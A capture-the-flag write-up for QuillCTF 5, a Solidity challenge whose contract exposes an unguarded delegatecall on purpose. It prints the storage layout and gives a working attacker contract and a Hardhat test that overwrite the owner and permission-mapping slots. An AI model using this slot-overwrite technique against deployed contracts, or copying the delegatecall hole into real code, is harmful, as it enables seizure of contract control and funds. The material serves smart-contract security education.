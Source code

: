 # QuillCTF 5: D31eg4t3

> This CTF challenge is developed to showcase the vulnerability which can be introduced by using delegatecall() incorrectly.
>
> “Handle with care, It’s D31eg4t3”

**Objective of CTF:**

- Become the owner of the contract.
- Make `canYouHackMe` mapping to `true` for your own address.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract D31eg4t3 {
  uint a = 12345;
  uint8 b = 32;
  string private d; // Super Secret data.
  uint32 private c; // Super Secret data.
  string private mot; // Super Secret data.
  address public owner;
  mapping(address => bool) public canYouHackMe;

  modifier onlyOwner() {
    require(false, "Not a Owner");
    _;
  }

  constructor() {
    owner = msg.sender;
  }

  function hackMe(bytes calldata bites) public returns (bool, bytes memory) {
    (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
    return (r, msge);
  }

  function hacked() public onlyOwner {
    canYouHackMe[msg.sender] = true;
  }
}
```

## The Attack

In this challenge, we are given a free-pass to make a `delegatecall` via the `hackMe` function. That is awesome, because `delegatecall` allows you to run code in the context of the caller contract. A side-effect of this is that the called contract can write to whatever storage slot they want with this. In this case, it looks like we are tasked with becoming the owner, and then calling the `hacked` function.

Let us first check the storage layout too see where `owner` would be. If all variables are less than 32 bytes in size, we should see it in the 6th slot (`0x05`). We can not always assume that to be the case, especially when there are strings. So let us just make some calls to the contract with `ethers.getStorageAt`. We find that:

```c
Slot 0 : 0x0000000000000000000000000000000000000000000000000000000000003039 // uint a
Slot 1 : 0x0000000000000000000000000000000000000000000000000000000000000020 // uint8 b
Slot 2 : 0x533020434c305333205933542053302046345200000000000000000000000026 // string d
Slot 3 : 0x0000000000000000000000000000000000000000000000000000000000000539 // uint32 c
Slot 4 : 0x3100000000000000000000000000000000000000000000000000000000000002 // string mot
Slot 5 : 0x000000000000000000000000698ee928558640e35f2a33cc1e535cf2f9a139c8 // address owner
```

So we just need to overwrite the 6th slot in the contract with our address. **However**, if you go on with the attack this way, you will notice that you always get stuck at `onlyOwner` modifier! The catch is that this modifier always reverts, no matter what; it has `require(false)` in it! So, although becoming the owner is a part of the objective, it is not enough. We also need to override mapping value too. Doing that is the same, we just need to make sure that the mapping storage variable is at the correct slot, in this case it will be the slot right after the `owner`, which is `Slot 6`.

We are also given the ability to pass `calldata` to the `delegatecall` via `bites` parameter, but we don't really need it for the attack. We can just write our code within a fallback function, which will execute when we provide an empty calldata.

## Proof of Concept

The attacker contract is as follows:

```solidity
contract D31eg4t3Attacker {
  uint256 slot0;
  uint256 slot1;
  uint256 slot2;
  uint256 slot3;
  uint256 slot4;
  address owner; // owner
  mapping(address => bool) public yesICan; // canYouHackMe

  function pwn(address target) external {
    (bool success, ) = D31eg4t3(target).hackMe("");
    require(success, "failed.");
  }

  fallback() external {
    owner = tx.origin;
    yesICan[tx.origin] = true;
  }
}
```

The Hardhat test code to demonstrate this attack is given below. Contract types are generated via TypeChain.

```typescript
describe('QuillCTF 5: D31eg4t3', () => {
  let contract: D31eg4t3;
  let attackerContract: D31eg4t3Attacker;
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('D31eg4t3', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('should claim ownership and hack', async () => {
    // deploy the attacker contract
    attackerContract = await ethers.getContractFactory('D31eg4t3Attacker', attacker).then(f => f.deploy());
    await attackerContract.deployed();

    // initiate first claim and consequent re-entries via pwn
    await attackerContract.connect(attacker).pwn(contract.address);
    expect(await contract.owner()).to.eq(attacker.address);
    expect(await contract.canYouHackMe(attacker.address)).to.be.true;
  });
});
```

